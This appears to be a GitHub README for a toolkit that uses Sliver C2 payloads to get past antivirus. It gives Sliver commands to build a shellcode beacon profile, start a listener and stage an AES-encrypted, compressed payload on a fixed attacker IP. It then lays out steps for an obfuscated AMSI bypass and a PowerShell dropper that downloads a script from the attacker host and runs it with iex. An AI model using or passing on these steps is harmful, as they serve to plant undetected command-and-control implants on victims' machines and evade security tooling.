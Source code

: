 # Bypass AV with Sliver c2

Toolkit and sample VS solution to start bypassing AV with Sliver C2 payloads.

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

## In Sliver

Create new beacon profile (does not need to be HTTPS)

`profiles new --http http://10.10.14.225:8080 --format shellcode http1`

Start listener

`http -L 10.10.14.225 -l 8080`

Stage beacon payload - compress and encrypt (optional)

`stage-listener --url http://10.10.14.225:8443 --profile http1 -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropping In-Memory

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly after an AMSI bypass.

1. Setup your AMSI bypass. 
	- Use `AmsiTrigger` to detect flags in `am_obfs.ps1`
	- Use `Invoke-Obfuscation` to patch these
	- Update the download url in the bypass.

2. Make any modifications to the assembly that you like
	- Afterwards, grab the base64 blob and update `loader.ps1`
	- `get-content -encoding byte -path .\sliverloader.dll | clip` and then CyberChef

3. Convert any encryption keys or IVs to bytes and update `loader.ps1`

4. Execute the dropper with bypass added
	- `(New-Object Net.WebClient).DownloadString('http://10.10.14.225:1234/am_obfs.ps1) | iex`
